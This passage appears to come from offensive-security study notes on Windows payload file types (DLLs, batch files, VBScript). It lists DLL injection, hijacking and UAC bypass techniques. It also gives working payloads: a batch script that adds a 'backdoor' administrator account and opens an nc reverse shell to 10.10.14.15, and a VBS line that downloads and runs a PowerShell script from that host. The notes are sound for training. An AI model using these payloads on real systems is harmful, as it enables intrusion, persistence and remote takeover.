 **Purpose:**
- Shared code and data libraries
- Used by multiple programs simultaneously
- Modular and updatable

**Attack Vectors:**
- **DLL Injection**: Inject malicious DLL into running process
- **DLL Hijacking**: Replace legitimate DLL with malicious version
- **Privilege Escalation**: Elevate to SYSTEM level
- **UAC Bypass**: Circumvent User Account Controls

**Common DLL Injection Techniques:**
- Process hollowing
- Reflective DLL loading
- Manual DLL mapping
- Thread execution hijacking

### Batch Files (.bat)

**Characteristics:**
- Text-based DOS scripts
- Executed by command-line interpreter
- Automated task execution
- System administrator utilities

**Use Cases:**
- Port opening/closing
- Reverse shell connections
- System enumeration
- Automated command execution

**Example batch payload:**
```batch
@echo off
net user backdoor password123 /add
net localgroup administrators backdoor /add
nc.exe -e cmd.exe 10.10.14.15 4444
```

### VBScript (.vbs)

**Background:**
- Lightweight scripting language
- Based on Microsoft Visual Basic
- Client-side web scripting (largely deprecated)
- Still used in phishing attacks

**Attack Applications:**
- Macro-enabled document attacks
- Email attachment payloads
- Windows Scripting Host execution
- Social engineering campaigns

**Example VBS payload:**
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -ep bypass -c ""IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15/shell.ps1')"""
```
